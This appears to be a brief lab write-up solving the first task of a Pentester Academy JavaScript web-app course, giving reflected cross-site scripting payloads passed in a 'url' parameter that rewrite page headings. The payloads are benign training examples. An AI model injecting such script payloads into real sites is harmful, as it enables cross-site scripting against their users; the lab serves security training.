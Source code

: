 
### Target

    https://www.pentesteracademy.com/course?id=11

### Prereq

Include this in your `.bashrc`:

    https://stackoverflow.com/questions/296536/how-to-urlencode-data-for-curl-command/10660730#10660730

### Task 1

    https://pentesteracademylab.appspot.com/lab/webapp/jfp/1

**Solution**

```
https://pentesteracademylab.appspot.com/lab/webapp/jfp/1?url=<payload>

Payloads generation:
rawurlencode '<script>document.getElementsByTagName("h2")[2].innerHTML = "Modified you"</script>'
rawurlencode '<script>document.getElementsByTagName("h1")[0].innerHTML = "Found you"</script>'
```
